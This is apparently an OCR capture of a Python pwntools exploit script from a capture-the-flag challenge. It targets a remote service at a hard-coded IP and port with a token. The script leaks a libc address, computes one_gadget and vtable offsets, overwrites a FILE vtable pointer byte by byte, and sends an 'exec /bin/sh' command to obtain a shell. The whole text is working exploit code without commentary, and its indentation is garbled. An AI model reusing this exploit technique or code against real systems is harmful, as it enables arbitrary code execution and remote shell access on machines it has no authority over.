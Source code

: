 ```


to = 0
if rem ==1:

    p = remote('150.109.44.250',20002)

    p.recvuntil('Input your token:')

p.sendline ( &#39;RyyWrOLHepeGXDy6g9gJ5PnXsBfxQ5uU&#39;)


sleep_ad = p.recvuntil(', good luck',drop=True).split(' ')[-1]



libc_base = long(sleep_ad,16) - libc.symbols['sleep']

one_gadget = libc_base + 0xf02b0

vtables =     libc_base + 0x3C56F8



fake_vtable = libc_base + 0x3c5588

target_addr = libc_base + 0x3c55e0



print 'libc_base: ',hex(libc_base)

print 'one_gadget:',hex(one_gadget)

print 'exit_addr:',hex(libc_base + libc.symbols['exit'])



# gdb.attach(p)



for i in range(2):

	p.send(p64(vtables+i))

	p.send(p64(fake_vtable)[i])





for i in range(3):

    p.send(p64(target_addr+i))

    p.send(p64(one_gadget)[i])



p.sendline("exec /bin/sh 1>&0")


```